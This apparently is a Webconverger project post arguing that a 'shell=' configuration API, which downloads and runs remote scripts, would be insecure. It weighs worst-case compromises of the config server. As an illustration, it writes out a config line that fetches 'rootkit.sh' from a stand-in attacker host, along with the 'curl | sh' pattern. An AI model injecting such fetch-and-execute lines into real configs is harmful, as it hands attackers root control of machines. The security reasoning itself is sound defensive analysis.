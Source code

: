 tl;dr Webconverger's current security model of enabling features through
limited [[API]]s is actually the right way to do it.

New functionality in Webconverger, means new [[API]]s to control them. Since I
can be too lazy to design an API, I've often thought about offering a shell
API.

For example:

	shell=https://example.com/hello.sh

Which downloads and executes the script. Analogous to `curl https://example.com/hello.sh | sh` "anti-pattern".

The pro with the shell API is that we can now create scripts on the fly, and so
could clients to toggle some functionality like:

* Copying in a style sheet and overriding style
* Downloading service files and enabling / starting them (e.g. for motion detection hardware)
* Installing some special driver or configuring xinputs
* Tweaking wpa_supplicant@wlan0.service with [wext](https://wiki.archlinux.org/index.php/WPA_supplicant) for older wlan interfaces
* Overriding SSL warnings or preloading internal SSL certificates
* Probably most importantly: Freedom to create your own API!

So we can implement new functionality as clients needed them, without
Webconverger requiring an reboot and upgrade!

# BUT A SHELL API IS NOT SECURE

HTTP Secure doesn't help. Just imagine if someone managed to compromise
**https://config.webconverger.com**. Every config could get an extra
line:

	shell=https://iamahacker.s3.amazonaws.com/rootkit.sh

Own4ge! 1000s of Webconverger machines could become <a
href="http://en.wikipedia.org/wiki/Zombie_%28computer_science%29">zombies</a>.

# What about CODE SIGNING?

We could employ code signing on the shell API. I.e. before executing
rootkit.sh, we also download rootkit.sh.gpg to check it's signed by someone
trusted.

But who is going to be trusted? Ultimately, the Webconverger developer makes
most sense. However this extra layer of security FAILs if the hacker managed to
get the developers laptop where both GPG (for code signing) and SSH key (for
config.webconverger.com git control) lies.

Too risky. Too much power in one place.

Lets get practical and think about security issues by:

1. The speed in which they take to fix (how much downtime will there be?)
* The speed in which they take to detect (can we actually tell there is malicious code at play?)
* The impact of the security issue (will clients lose data or hardware?)
* The worst possible action customer needs to take (what does a client have to do?)

The shell= API would score:

1. Once the machine is compromised, it can't be fixed remotely
* We probably cannot tell a machine has been compromised
* The entire machine will effectively be lost to the hacker. Completely owned.
* The client would have to re-install (which doesn't take long mind)

# Back to the status quo

The reason that the [[API]]s exist is to **protect** the Webconverger system
from being permanently compromised. The APIs also offer crucially:

* idempotency
* safety from permanently damaging the system
* they are tested before bring rolled out

So even in the case where https://config.webconverger.com/ is totally
compromised. What's the WORST possible outcome?

# What currently are the WORST POSSIBLE SCENARIOS?

Today the worst possible scenarios for Webconverger clients controlled by a
compromised <https://config.webconverger.com/> are:

## `homepage=` is changed to point to some offensive site

As soon as the compromise was realised, restoring config.webconverger.com is as
simple as cloning a git repository onto a Web host that the DNS `dig +short
config.webconverger.com` points to. The DNS record's TTL for
config.webconverger.com is 60 seconds. DNS is hosted at Route 53 and the
Registration is currently with Dreamhost, both are protected by 2 factor
authentication.

The point is, **config.webconverger.com** can be restored very quickly if
compromised. So the "hacked configuration" with the offensive site can be
mitigated quickly.

## Denial of service

A cronjob, for example rebooting Webconverger every minute would lead to denial
of service. Again this can be mitigated quickly since
**config.webconverger.com** is completely managed in source control is designed
to be easily restored. However the client would need to be rebooted.

## Browser sessions are not cleared between users

The "noclean" API means that Webconverger would not delete the `~/.mozilla`
directory between sessions. This could jeopardise users privacy _local to the
machine_, as cookies etc would be shared amongst sessions. Again, once this
discovered, it is very quickly rectified by effectively a reboot.

Our current API design served by <https://config.webconverger.com/> would score:

1. Usually this would just require a reboot, but in the homepage= case with instantupdate, it could be quicker
* We have a git log of all the configuration changes, so we can tell if something is amiss
* The worst possible case is `noclean` mode, described above, which isn't nearly as bad as `shell=` potential of having root access
* Worst possible case with config.webconverger.com, the machine would require a **manual reboot**

## Wait... what if the upgrade mechanism got compromised?

Now it's probably worth mentioning the elephant in the room. What happens if
<https://github.com/webconverger/webc> got compromised? The impact could be
very bad (root), however note that upgrades only happen at boot with install
versions. So there is a natural delay. Next the speed in which we can detect
and fix a piece of malicious code injected into our repository should be VERY
QUICK. <https://github.com/Webconverger/webc/commits/master> is **closely
watched**. Finally the worst possible outcome for a client is a re-install.

# Keeping to the current slow API design

So, thanks the [[API]]'s safety and the way config.webconverger.com is managed,
these "worst possible" scenarios are far less risky, since they are severely
limited, quickly and easily fixed by a reboot. The current [[security]] design
is a LOT better than if the machine turned into a Zombie via a remote scripting
interface like `shell=`!

The down side is that you need to request every new feature and we need to
implement it as an [[API]]. It's more secure that way.
